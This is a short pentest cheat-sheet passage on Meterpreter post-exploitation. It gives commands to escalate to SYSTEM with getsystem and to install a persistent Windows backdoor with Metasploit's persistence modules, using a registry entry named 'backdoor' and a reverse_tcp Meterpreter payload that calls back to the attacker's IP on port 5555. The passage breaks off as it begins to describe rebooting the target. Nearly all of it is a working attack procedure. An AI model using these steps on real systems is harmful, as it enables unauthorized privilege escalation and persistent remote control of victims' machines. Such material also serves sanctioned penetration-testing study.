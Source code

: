 ## Meterpreter

### Obtain SYSTEM privileges on the machine

check before and after `getuid`&#x20;

```
getsystem
```

### Install a backdoor

#### remember your session ID:

```
sessions -l
```

#### many way to achieve persistence one way is this:

```
use exploit/windows/local/persistence
```

configurate:

```
use exploit/windows/local/persistence
use exploit/windows/local/persistence_service //better

set reg_name backdoor
set exe_name backdoor
set startup SYSTEM
set session 1
set payload windows/meterpreter/reverse_tcp
set exitfunc process
set lhost <My_IP>
set lport 5555
set DisablePayloadHandler false
```

Note that we will also need to enable the Payload Handler in order to receive the connection, as follows:

```
set DisablePayloadHandler false
```

exploit now:

```
exploit //if the backdoor doesn't start immediately, use "exploit -j" instead
```

notice backdoor installed successfully but didn't un we need the target to reboot to work so we will go back to the Meterpreter session and reboot it like this:

